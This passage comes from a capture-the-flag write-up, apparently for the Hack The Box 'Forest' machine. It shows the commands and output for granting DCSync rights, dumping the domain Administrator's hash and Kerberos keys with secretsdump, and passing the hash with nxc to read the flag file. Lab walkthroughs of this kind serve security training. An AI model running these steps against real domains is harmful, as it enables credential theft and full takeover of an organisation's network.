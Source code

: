 Next, we can assign **DCSync rights** to the user, perform the [**DCSync**](broken-reference) **attack** and obtain the `Administrator`'s NT hash from our attack host.

{% code overflow="wrap" %}
```bash
# assign DCSync rights to the user
$ /opt/DCSync/DCSync.py -dc htb.local -t 'CN=hacker,CN=Users,DC=htb,DC=local' 'htb.local\hacker:h@ck3r!'
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=hacker,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\hacker account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User hacker now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240321-182755.restore

# perform the DCSync attack
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```
{% endcode %}

Finally, we can use the `Adnimistrator`'s credentials to compromise the `root.txt` file:

{% code overflow="wrap" %}
```bash
$ nxc smb 10.10.10.161 -u administrator -H '326<REDACTED>ea6' -X 'gc ~\Desktop\root.txt'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\administrator:326<REDACTED>ea6 (Pwn3d!)
SMB         10.10.10.161    445    FOREST           [+] Executed command via wmiexec
SMB         10.10.10.161    445    FOREST           2e6<REDACTED>8e1
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Account Operators Exploitation" %}
{% embed url="https://www.whiteoaksecurity.com/blog/account-operators-privilege-escalation/" %}
{% endtab %}
{% endtabs %}

